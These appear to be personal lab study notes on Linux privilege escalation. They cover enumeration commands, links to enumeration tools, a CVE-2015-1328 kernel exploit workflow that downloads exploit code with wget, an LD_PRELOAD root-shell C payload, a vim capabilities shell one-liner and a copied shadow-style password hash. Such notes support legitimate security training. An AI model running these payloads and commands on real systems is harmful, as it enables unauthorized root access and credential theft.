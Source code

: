# Privilege Escalation - going from a lower permission account to a higher permission one
-exploitation of a vulnerability, design flaw or configuration oversight in an OS or APP to gain unathorized access to resources that are usually restricted from the users
### -Privilege Escalation allows:
1. Resetting passwords
2. Bypass access controls to compromise protected data
3. Editing software configurations
4. Enabling persistence
5. Changing the privilege of existing users
6. Execute any admin command

## Linux Commands

**Enumeration**- first step taken after gaining access, important step post-compromise phase

- 'hostname' - command returns hostname of the target machine
- 'uname -a' - print system information detail about kernel, useful for potential kernel vulns
- '/proc/version' - info about the target system processes
- '/etc/issue' - file contains info about the OS, can be eaily customized or changed
- 'ps' - see running processes on linux system
-1. PID: Process ID
-2. TTY: Terminal type used by user
-3. Time: Amount of CPU time used by process
-4. CMD: command or executable running
'ps -a': view all running processes
'ps axjf': view process tree
'ps aux': will show processes for all users
-a: all users
-u: display the user that launced the process
-x: show processes that are not attached to a terminal

'env': show environmental variables
'sudo -l: list all commands the user can run using 'sudo'
'ls': list files in current directory
'ls -la': list all files including hidden files in current directory
'id <user>': provide a general overview of the user's privilege level
'cat /etc/passwd': discover users on the system
'cat /etc/passwd | cut -d ":" -f 1": easily list all users and ignore other parts
'history': look at earlier commands 
'ifconfig': information about the network interfaces (eth0, tun0, and tun1)
'ip route': see network route

'netstat': gather information on existing connections
'netstat -a': shows all listening ports and established connections
'netstat -at': list TCP protocols
'netstat -au': list UDP protocols
'netstat -l': list ports in 'listening' mode. Ports are open and ready to accept incoming connection
'netstat -lt': list ports in 'listening' mode using TCP protocol
'netstat -s': list network usage statistics by protocol (-t: TCP, -u: UDP)
'netstat -tp': list connections with service name and PID (-l: listening ports)
'netstat -i': shows interface stats
'netstat -ano': -a = display all sockets, -n: do not resolve names, -o: display timers

find command - searching the target system for important information and potential privilege escalation vectors 
'find . -name <filename>.txt' find the file named <filename> in the current directory
'find /home -name <filename>.txt': find file named <filename> in the /home directory
'find / -type d -name config': find the directory named config under "/"
'find / -type f -perm 0777': find files with the 777 permissions(files readable, writable and executable by all users)
'find / -perm a=x':find executable files
'find /home -user frank': find all files for user "frank" under "/home"
'find / -mtime 10': find files modified in the last 10 days
'find / -atime 10': find files accessed in the last 10 days
'find / -cmin -60': find files changed in the last hour 
'find / -amin -60': find files accessed in the last hour
'find / -size 50M': find files with a 50 MB size

folders and files that can be written to or executed from:
1. 'find / -writable -type d 2>/dev/null'
2. 'find / -perm -222 -type d 2>/dev/null'
3. 'find / -perm -o w -type d 2>/dev/null'
'find / -perm -o x -type d 2>/dev/null': find world executable folders
find development tools and supported languages:
'find / -name perl*'
'find / -name python*'
'find / -name gcc*'
'find / -perm -u=s -type f 2>/dev/null': find files with SUID bit, which allows us to run the file with a higher privilege than the current user

Automated Enumeration Tools - linux enumeration tools with Github Repositories
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

Kernel Exploits
-privEsc ideally leads to root privileges
-achieved by exploting an existing vuln or accessing another user account that has higher privileges
-rely on misconfigurations and lax permissions
-methodology:
1. Id the Kernel version
2. search and find an exploit code (https://www.linuxkernelcves.com/cves)
3. Run the exploit

Linux Kernel 3.13.0-24-generic x86 64
CVE-2015-1328: Allows local users to obtain root access by leveraging a configuration in which 'overlayfs' is permitted in an arbitrary mount namespace. 
Exploit: https://www.exploit-db.com/exploits/37292
1. Need to copy exploit file to the target machine
	a. start a python server to serve the file
	python3 -m http.server 8888
	b. on target machine copy the file in the /tmp folder
	wget http://1.2.3.4/8888/exploit.c
2. compile the exploit
gcc exploit.c -o pwned
3. search for flag
find . -name flag1.txt
4. cat flag1.txt

Sudo
-check root privileges using 'sudo -l'
-Leverage application functions: some application allow the loading of alternative configuration files
eg: Apache2 ('-f': specify an alternate ServerConfigFile)
-Leverage LD_PRELOAD: allows any program to use shared libraries
-if "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run
-LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
-Methodology:
1. Check for LD_PRELOAD(with the env_keep option enabled)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows; shell.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
-use this shared object file when launching any program the user can run with sudo
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::

SUID
-Linux privilege controls rely on controlling users and file interacions
-achieved using permissions
-SUID(set-user identification)
-SGID(set-group identification)
-'s'bit - special permission level
'find / -type f -perm -04000 -ls 2>/dev/null': list files with SUID or SGID bit set

Capabilities
'getcap' tool  to list enabled capabilities
-capabilites help manage privileges at a more granular level
'getcap -r /' generates a lot of erros so it is good practice to redirect error messages to /dev/null
'getcap -r / 2>/dev/null'
vim:
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

Cron Jobs
-used to run scripts or binaries at specific times
-run with privilege of the owner and not current user
-task that runs on root privileges, change script that will be run to new script with root privileges
-stored as crontabs
-any user can read the file keeping system-wide cron jobs under '/etc/crontab'
backup.sh - configured to run every minute

PATH
-if a folder for the user has a write permission located in the path, an applicaition in the path could be hijacked to run a script and increase privileges
echo $PATH

NFS
-Network file sharing: configuration is kept in '/etc/exports' file. 
-the file is created during the NFS server installation and can usually be read by users
-critical element: "no_root_squash" - default NFS will change the root user to nfsnobody and strip any file from operating with root privileges
- 'no_root_squash' is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system



